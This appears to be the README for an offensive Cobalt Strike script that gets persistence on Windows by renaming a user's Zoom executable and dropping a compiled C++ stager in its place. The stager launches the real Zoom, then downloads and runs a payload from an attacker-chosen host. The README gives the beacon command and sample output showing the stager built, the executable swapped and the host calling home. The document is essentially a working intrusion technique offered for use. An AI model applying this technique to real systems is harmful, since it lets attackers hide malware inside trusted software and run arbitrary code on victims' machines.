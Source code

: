 # Zoom Persistence via Symlink Abuse

## Background: 
By default Zoom gets installed under a User's "AppData" directory (C:\Users\{USER}\AppData\Roaming\Zoom\) which is writeable by the user in question if the Zoom executable located in the the Zoom "bin" directory gets replaced with another one. All the Symbolic links (short cuts) will point to this new exe.

## Functionality 
This script generates a C++ stager using the operator provided arguments (Compilation is currently handled by mingw and generates a 32bit exe). The script then renames the zoom executable on the filesystem to a user-defined name and uploads the stager to the zoom directory under the file name "zoom.exe".

This stager will then run the Zoom Executable using its modified name and then pull the stage from the specified address and execute it.

## IMPORTANT 

Modify the builder and compiler variables to point at the correct compiler executable names 

## Example Usage : 

```
beacon> zoomer 127.0.0.1 80 test 
```

## Sample Output :

```
beacon> zoomer 10.0.0.151 80 test ZoomClient.exe
[+] Building Stager to fetch from http://10.0.0.151:80/test
[+] Created New Stager Source C:\Users\S4R1N\source\repos\ZoomPersistence\Source\10.0.0.151_80_test.cpp
[+] Attempting to Compile Stager
[+] Return Code From Compiler: 0
[+] Renaming Zoom Client For S4R1N (c:\users\S4R1N\AppData\Roaming\Zoom\bin\zoom.exe) to ZoomClient.exe (c:\users\S4R1N\AppData\Roaming\Zoom\bin\ZoomClient.exe)
[*] Tasked beacon to run: rename c:\users\S4R1N\AppData\Roaming\Zoom\bin\zoom.exe ZoomClient.exe
[*] Tasked beacon to upload c:\users\S4R1N\AppData\Roaming\Zoom\bin\zoom.exe as c:\users\S4R1N\AppData\Roaming\Zoom\bin\zoom.exe
[+] host called home, sent: 81721 bytes
```